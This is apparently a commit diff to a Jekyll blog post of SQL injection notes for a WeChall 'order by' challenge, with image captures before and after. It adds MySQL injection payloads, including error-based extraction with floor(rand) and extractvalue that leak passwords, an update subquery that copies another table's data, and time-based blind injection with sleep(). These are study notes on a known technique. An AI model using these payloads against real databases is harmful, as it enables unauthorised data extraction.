

Before and after one commit to tank96a/article, a Jekyll site: the page built from _posts/2015-04-25-wechall-order-by.md, in a window 1280 px wide and 1400 px high, scrolled down 3231 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded; before the commit the page ends 4571 px from its top, so only the background shows below that.

Commit message:
Update 2015-04-25-wechall-order-by.md

```diff
--- a/_posts/2015-04-25-wechall-order-by.md
+++ b/_posts/2015-04-25-wechall-order-by.md
@@ -208,8 +208,10 @@ insert into fruits values ('Harald5','e10adc3949ba59abbe56e057f20f903e',5,5,5);
 select flag from flag where flag='' and (select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) and '';
 //Duplicate entry 'security1' for key 'group_key'
 
+//update爆其他表的数据
 update users set password='',password=(select email_id from emails limit 0,1) where username='admin4';
 
+// order by 第二关键字注入
 order by apples,IF(1,bananas,cherries) desc
 order by apples,(case when 1 then bananas else cherries end) desc
 
@@ -220,6 +222,9 @@ order by 1 and extractvalue(0,concat(0x3a,mid((select password from fruits where
 
 select * from fruits order by extractvalue(0,concat(0x3a,(select password from users where username='Dummy')));
 //XPATH syntax error: ':p@ssword' 可以爆出其他表中的字段值
+
+select 1 from (select * from fruits where username='Admin' and if(upper(substring(password,1,1))='E',sleep(1),0))b;
+//Empty set (1.00 sec)  时间注入
 
 
 mysql常用命令：
```
